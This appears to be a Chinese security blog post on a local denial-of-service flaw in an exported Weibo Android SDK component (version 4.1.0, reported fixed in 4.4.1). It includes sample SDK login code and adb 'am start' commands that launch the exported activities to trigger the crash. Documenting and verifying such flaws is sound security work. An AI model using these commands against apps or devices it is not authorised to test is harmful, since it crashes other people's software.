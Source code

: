 ```yaml
---
title: 微博sdk组件导出测试本地拒绝服务测试
tags:
  - android
  - 组件漏洞
  - 微博sdk
abbrlink: 3083534279
date: 2019-08-12 15:35:22
description: 微博sdk组件导出测试
categories:
  - - 安全
    - 移动安全
    - android安全
---
```


## 前言
测试的时候发现一个微博组件导出导致拒绝服务的问题,现测试哪个版本没有这个问题。  

## 代码

```
public class LoginActivity extends AppCompatActivity {

    private SsoHandler mSsoHandler;
    private Oauth2AccessToken mAccessToken;

    @Override
    protected void onCreate(@Nullable Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_login);
        initWeiBoSDK();
        mSsoHandler = new SsoHandler(this);
        loginIn();
    }

    private void initWeiBoSDK() {
        AuthInfo mAuthInfo = new AuthInfo(this, "你的appkey", "https://api.weibo.com/oauth2/default.html",
                "email,direct_messages_read,direct_messages_write,"
                        + "friendships_groups_read,friendships_groups_write,statuses_to_me_read,"
                        + "follow_app_official_microblog," + "invitation_write");
        WbSdk.install(this,mAuthInfo);
    }

    private void loginIn() {

        mSsoHandler. authorize(new WbAuthListener());
    }

    private class WbAuthListener implements com.sina.weibo.sdk.auth.WbAuthListener{

        @Override
        public void onSuccess(final Oauth2AccessToken token) {
            runOnUiThread(new Runnable() {
                @Override
                public void run() {
                    mAccessToken = token;
                    if (mAccessToken.isSessionValid()) {

                    }
                }
            });
        }

        @Override
        public void cancel() {

        }

        @Override
        public void onFailure(WbConnectErrorMessage errorMessage) {

        }
    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        if (mSsoHandler != null) {
            mSsoHandler.authorizeCallBack(requestCode, resultCode, data);
        }
    }
}
```

微博sdk本地拒绝服务影响版本
`compile 'com.sina.weibo.sdk:core:4.1.0:openDefaultRelease@aar'`   
现升级到
`compile 'com.sina.weibo.sdk:core:4.4.1:openDefaultRelease@aar'`  没有这个问题  

漏洞证明：  

```
adb shell am start com.demo.sinaweibosdk_test/com.sina.weibo.sdk.share.WbShareTransActivity

```

扫描打包后的apk：  
存在一处导出  

```
adb shell am start com.demo.sinaweibosdk_test/com.sina.weibo.sdk.share.WbShareResultActivity
```
测试后已经不存在崩溃了  

## CODE
[sinaweibosdk_test](https://github.com/tea9/sinaweibosdk_test)  

## LINKS

[微博开放平台](http://open.weibo.com/)  
需要认证下邮箱。  
之后创建应用。 微链接-移动应用-立即接入。  
[微博开放平台-应用信息](https://open.weibo.com/apps/1349715877/info/basic?action=review)  
[微博开放平台-控制台](https://open.weibo.com/apps/1349715877/info/basic?action=review#req)  
添加包名-签名信息。  
[weibo_android_sdk](https://github.com/sinaweibosdk/weibo_android_sdk)  
[android使用新浪微博最新SDK4.1进行第三方授权登录](https://blog.csdn.net/weixin_37577039/article/details/78632075)  

